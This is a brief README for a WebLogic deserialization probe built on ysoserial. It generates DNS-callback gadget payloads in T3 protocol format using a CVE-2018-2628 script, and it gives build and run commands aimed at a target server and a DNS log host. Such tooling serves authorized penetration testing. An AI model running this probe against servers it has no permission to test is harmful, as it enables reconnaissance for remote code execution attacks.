 ## weblogic-gadget-probe

- modified from [ysoserial](https://github.com/frohoff/ysoserial)
- added dns gadget probe for weblogic 
    - generate dns callback payload and packed into t3 protocol format (using cve-2018-2628 script)
- How to use
    - `mvn clean package -DskipTests` (Build ysoserial with my probe payload)
    - `python auto.py wlsserver.com 7001 black.list mydnslog.tw`
